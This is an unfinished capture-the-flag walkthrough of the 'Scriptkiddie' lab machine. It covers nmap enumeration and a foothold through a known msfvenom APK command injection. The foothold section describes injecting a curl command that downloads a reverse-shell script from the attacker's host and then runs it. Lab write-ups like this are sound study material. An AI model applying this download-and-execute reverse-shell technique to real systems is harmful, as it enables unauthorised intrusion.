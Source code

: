 ![](images/banner.png)

# Scriptkiddie


### Description:

This machine simualtes a user using hacker tools in a webpage where you can abuse an old version of msfvenom, then exploit a cron to get lateral movement and finally abusing sudo rights to msfconsole. definetly a fun box.


### Difficulty:

`easy`


# Enumeration

First, we run `nmap` to know what ports are in use .

```sudo nmap -sC -sV -oA nmap/script 10.10.10.226```

![[images/Pasted image 20220207101557.png]]

we see port 22 (ssh) and port 5000 (python werkzeurg webserver), if we go to that webpage, we see this tools:

![[images/Pasted image 20220207141415.png]]

`nmap`  and `searchsploit` have sanitized input, so we can't vulnerate them. 
A quick search in google showed that `msfvenom` has a [vulnerability](https://www.exploit-db.com/exploits/49491) that allow us to inject a command using a corruped APK. 



# Foothold

To verify that the script works, we modify the command to inject in the script to be a `ping` to our ip. 

![[images/Pasted image 20220207142846.png]]

So, we generate the payload, upload it, and set a `tcpdump` listening to icmp requests.

![[images/Pasted image 20220207105342.png]]

Now, we know that the script works, so we can try to inject a reverse shell.
BUT, to be honest, any reverse shell that i tried didn't work (idk why), so i did the following steps:

* Injected a simple http server onto the machine to verify the file structure and if i can inject files:  `python3 -m http.server`
*  Created a .sh file that contains a reverse shell in pyhon.
*  Upload the file injecting a curl command into the apk:  `curl 10.10.14.15:8000/reverse.sh`
*  Verified that the file was uploaded:
![[images/Pasted image 20220207143323.png]]
* Set a listening port on my local machine and run the exploit injecting a `sh exploit.sh`

and voila.

![[images/Pasted image 20220207143852.png]]
 
# Lateral Movement

Now that we're in, we can enumerate the users, 



# Privilege Escalation

